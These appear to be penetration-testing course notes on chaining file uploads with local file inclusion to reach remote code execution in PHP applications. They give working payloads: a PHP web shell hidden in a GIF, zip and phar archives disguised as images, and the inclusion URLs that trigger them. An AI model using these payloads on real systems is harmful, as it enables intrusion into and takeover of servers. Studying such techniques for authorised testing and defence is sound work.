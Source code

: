 File upload functionalities are ubiquitous in most modern web applications, as users usually need to configure their profile and usage of the web application by uploading their data. For attackers, the ability to store files on the back-end server may extend the exploitation of many vulnerabilities, like a file inclusion vulnerability. 

If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

## Image upload
* Very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded
* The vulnerability, in this case, is not in the file upload form but the file inclusion functionality

#### Crafting Malicious Image
* Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image
* So, we will use an allowed image extension in our file name (e.g. `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g. `GIF8`), just in case the upload form checks for both the extension and content type as well

```sh
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

* This file on its own is completely harmless and would not affect normal web applications in the slightest
* However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution

**Note:** We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type.

![](lfi_upload_gif.jpg)

#### Uploaded File Path
* Once we've uploaded our file, all we need to do is include it through the LFI vulnerability
* To include the uploaded file, we need to know the path to our uploaded file
* In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL
* In our case, if we inspect the source code after uploading the image, we can get its URL

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

**Note:** As we can see, we can use `/profile_images/shell.gif` for the file path. If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files.

* With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed
* `http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id`

![](lfi_include_uploaded_gif.jpg)

* **Note:** To include to our uploaded file, we used `./profile_images/` as in this case the LFI vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to `../` out of that directory and then use our URL path, as we learned in previous sections.

## Zip Upload
* There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal
* These techniques may become handy in some specific cases where the above technique does not work
* We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code
* `This wrapper isn't enabled by default`, so this method may not always work

```sh
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

**Note:** Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

* Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded)
* `http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id`

![](3.%20Completed/File%20Inclusion/RCE/Screenshots/data_wrapper_id.png)

**Note:** We added the uploads directory (`./profile_images/`) before the file name, as the vulnerable page (`index.php`) is in the main directory.

## Phar Upload
* We can use the `phar://` wrapper to achieve a similar result

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

* This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with
* We can compile it into a `phar` file and rename it to `shell.jpg`

```sh
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

* Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`)

![](rfi_localhost.jpg)

**Note:** There is another (obsolete) LFI/uploads attack worth noting, which occurs if file uploads is enabled in the PHP configurations and the `phpinfo()` page is somehow exposed to us. However, this attack is not very common, as it has very specific requirements for it to work (LFI + uploads enabled + old PHP + exposed phpinfo()). If you are interested in knowing more about it, you can refer to [This Link](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf).